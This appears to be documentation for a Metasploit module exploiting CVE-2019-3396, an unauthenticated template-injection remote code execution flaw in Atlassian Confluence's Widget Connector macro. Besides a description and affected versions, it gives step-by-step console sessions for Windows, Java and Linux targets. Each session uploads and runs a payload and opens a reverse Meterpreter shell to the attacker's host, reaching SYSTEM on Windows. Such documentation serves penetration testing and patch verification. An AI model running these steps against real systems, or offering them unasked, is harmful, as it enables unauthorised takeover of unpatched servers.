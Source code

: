 # Description

This module exploits a Velocity Template Injection in Atlassian Confluence Widget Connector Macro before 6.14.2 to execute arbitrary code (CVE-2019-3396). No authentication is required to exploit this vulnerability.

The vulnerability exists in the Widget Connector Macro which allow inject the "\_template" from the outside for some services, such as Youtube, Viddler, DailyMotion, etc.

The module has been tested with on Atlassian Confluence 6.6.12, 6.8.2, 6.12.0 and 6.13.0 using Java, Windows and Linux meterpreter payload.

References:
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-3396
https://confluence.atlassian.com/doc/confluence-security-advisory-2019-03-20-966660264.html

## Vulnerable Application
Affecting Atlassian Confluence before version 6.6.12, from version 6.7.0 before 6.12.3, from version 6.13.0 before 6.13.3 and from version 6.14.0 before 6.14.2.

# Verification Steps

- [ ] Setting up a working installation of Atlassian Confluence before 6.6.13, 6.12.3, 6.12.3 or 6.14.2.
- [ ] Start `msfconsole`
- [ ] `use exploit/multi/http/confluence_widget_connector`
- [ ] `set RHOST <IP>`
- [ ] `set RPORT <PORT>`
- [ ] `set SRVHOST <HOST_IP>`
- [ ] `check`
- [ ] You should see `The target is vulnerable`
- [ ] `exploit`
- [ ] You should get a meterpreter session.

## Options
- **TARGETURI**: Path to Atlassian Confluence installation ("/" is the default)
- **TRIGGERURL**: Url to external video service to trigger vulnerability ("https://www.youtube.com/watch?v=kxopViU98Xo" is the default)

## Scenarios
## Tested on Confluence 6.8.2 with Windows target
```
msf5 > use exploit/multi/http/confluence_widget_connector
msf5 exploit(multi/http/confluence_widget_connector) > set RHOST target.com
RHOST => target.com
msf5 exploit(multi/http/confluence_widget_connector) > set RPORT 8090
RPORT => 8090
msf5 exploit(multi/http/confluence_widget_connector) > set SRVHOST 192.168.0.1
SRVHOST => 192.168.0.1
msf5 exploit(multi/http/confluence_widget_connector) > set TARGET Windows
TARGET => Windows
msf5 exploit(multi/http/confluence_widget_connector) > check
[*] target.com:8090 - Starting the FTP server.
[*] target.com:8090 - Started service listener on 192.168.0.1:8021
[+] target.com:8090 - The target is vulnerable.
[*] target.com:8090 - Server stopped.
msf5 exploit(multi/http/confluence_widget_connector) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Started reverse TCP handler on 192.168.0.1:4444
[*] target.com:8090 - Starting the FTP server.
[*] target.com:8090 - Started service listener on 192.168.0.1:8021
msf5 exploit(multi/http/confluence_widget_connector) >
[*] target.com:8090 - Target being detected as: Windows 10
[*] target.com:8090 - Attempting to upload C:\PROGRA~1\Atlassian\Confluence\temp\gAdGh.exe
[*] target.com:8090 - Attempting to copy payload to C:\PROGRA~1\Atlassian\Confluence\temp\MRuDb.exe
[*] target.com:8090 - Attempting to execute C:\PROGRA~1\Atlassian\Confluence\temp\MRuDb.exe
[*] Sending stage (179779 bytes) to target.com
[*] Meterpreter session 1 opened (192.168.0.1:4444 -> target.com:62528) at 2019-04-11 03:13:37 +0000
[*] target.com:8090 - Waiting for exploit to complete...
[!] This exploit may require manual cleanup of 'C:\PROGRA~1\Atlassian\Confluence\temp\FFDBo.exe' on the target
[!] This exploit may require manual cleanup of 'C:\PROGRA~1\Atlassian\Confluence\temp\JLzIZ.exe' on the target
[*] target.com:8090 - Server stopped.
msf5 exploit(multi/http/confluence_widget_connector) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > quit
[*] Shutting down Meterpreter...

[*] target.com - Meterpreter session 1 closed.  Reason: User exit
msf5 exploit(multi/http/confluence_widget_connector) >
```

## Tested on Confluence 6.8.2 with Java target
```
msf5 > use exploit/multi/http/confluence_widget_connector
msf5 exploit(multi/http/confluence_widget_connector) > set RHOST target.com
RHOST => target.com
msf5 exploit(multi/http/confluence_widget_connector) > set RPORT 8090
RPORT => 8090
msf5 exploit(multi/http/confluence_widget_connector) > set SRVHOST 192.168.0.1
SRVHOST => 192.168.0.1
msf5 exploit(multi/http/confluence_widget_connector) > check
[*] target.com:8090 - Starting the FTP server.
[*] target.com:8090 - Started service listener on 192.168.0.1:8021
[+] target.com:8090 - The target is vulnerable.
[*] target.com:8090 - Server stopped.
msf5 exploit(multi/http/confluence_widget_connector) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Started reverse TCP handler on 192.168.0.1:4444
[*] target.com:8090 - Starting the FTP server.
[*] target.com:8090 - Started service listener on 192.168.0.1:8021
msf5 exploit(multi/http/confluence_widget_connector) >
[*] target.com:8090 - Target being detected as: Linux
[*] target.com:8090 - Attempting to upload  /opt/atlassian/confluence/temp/EjpPf.jar
[*] target.com:8090 - Attempting to execute  /opt/atlassian/confluence/temp/EjpPf.jar
[*] Sending stage (53866 bytes) to target.com
[*] Meterpreter session 1 opened (192.168.0.1:4444 -> target.com:55690) at 2019-04-11 03:13:37 +0000
[+] target.com:8090 -Deleted /opt/atlassian/confluence/temp/EjpPf.jar
[*] target.com:8090 - Waiting for exploit to complete...
[*] target.com:8090 - Server stopped.
msf5 exploit(multi/http/confluence_widget_connector) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: confluence
meterpreter > quit
[*] Shutting down Meterpreter...

[*] target.com - Meterpreter session 1 closed.  Reason: User exit
msf5 exploit(multi/http/confluence_widget_connector) >
```

## Tested on Confluence 6.8.2 with Linux target
```
msf5 > use exploit/multi/http/confluence_widget_connector
msf5 exploit(multi/http/confluence_widget_connector) > set RHOST target.com
RHOST => target.com
msf5 exploit(multi/http/confluence_widget_connector) > set RPORT 8090
RPORT => 8090
msf5 exploit(multi/http/confluence_widget_connector) > set SRVHOST 192.168.0.1
SRVHOST => 192.168.0.1
msf5 exploit(multi/http/confluence_widget_connector) > check
[*] target.com:8090 - Starting the FTP server.
[*] target.com:8090 - Started service listener on 192.168.0.1:8021
[+] target.com:8090 - The target is vulnerable.
[*] target.com:8090 - Server stopped.
msf5 exploit(multi/http/confluence_widget_connector) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Started reverse TCP handler on 192.168.0.1:4444
[*] target.com:8090 - Starting the FTP server.
[*] target.com:8090 - Started service listener on 192.168.0.1:8021
msf5 exploit(multi/http/confluence_widget_connector) >
[*] target.com:8090 - Target being detected as: Linux
[*] target.com:8090 - Attempting to upload /opt/atlassian/confluence/temp/BYHzD
[*] target.com:8090 - Attempting to copy payload to /opt/atlassian/confluence/temp/dESMnt
[*] target.com:8090 - Attempting to execute /opt/atlassian/confluence/temp/dESMnt
[*] Sending stage (985320 bytes) to target.com
[*] Meterpreter session 1 opened (192.168.0.1:4444 -> target.com:55690) at 2019-04-11 03:13:37 +0000
[+] target.com:8090 - Deleted /opt/atlassian/confluence/temp/BYHzD
[+] target.com:8090 - Deleted /opt/atlassian/confluence/temp/dESMnt
[*] target.com:8090 - Waiting for exploit to complete...
[*] target.com:8090 - Server stopped.
msf5 exploit(multi/http/confluence_widget_connector) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: uid=1001, gid=1001, euid=1001, egid=1001
meterpreter > quit
[*] Shutting down Meterpreter...

[*] target.com - Meterpreter session 1 closed.  Reason: User exit
msf5 exploit(multi/http/confluence_widget_connector) >
```
